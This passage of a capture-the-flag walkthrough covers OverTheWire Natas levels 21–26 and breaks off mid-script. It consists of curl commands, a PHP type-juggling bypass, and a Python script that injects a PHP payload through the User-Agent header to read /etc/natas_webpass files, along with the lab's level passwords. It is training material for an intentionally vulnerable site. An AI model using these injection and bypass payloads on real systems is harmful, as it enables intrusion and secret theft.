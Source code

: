 ```shell 
  | grep -oP 'PHPSESSID=\K[^;]+')

  

echo "[+] Got PHPSESSID: $PHPSESSID"

# GET flag

curl -s -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH \

  --cookie "PHPSESSID=$PHPSESSID" \

  http://natas21.natas.labs.overthewire.org/
```
```
Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
```
## Natas23
```shell
 curl -i -s -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz \
  "http://natas22.natas.labs.overthewire.org/?revelio=true"
```
```
	natas23
	dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
```
## Natas24
- PHP type juggling strstr -> 111111111iloveyou -> iloveyou 
```
curl -s -G -u natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs \
  --data-urlencode "passwd=111111iloveyou" \
  http://natas23.natas.labs.overthewire.org/
```
```
natas24
MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
```
## Natas25
```
passwd[]
```
```
natas25
ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
```
## Natas 26
```python
#!/usr/bin/env python

import requests

target = 'http://natas25.natas.labs.overthewire.org'
auth = ('natas25', 'ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws')

cookies = dict()
# this forces the application to call logRequest() function
params = dict(lang='natas_webpass')
# this put contents of "/etc/natas_webpass/natas26" in each log entry
headers = {
	"User-Agent": '<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'
}
```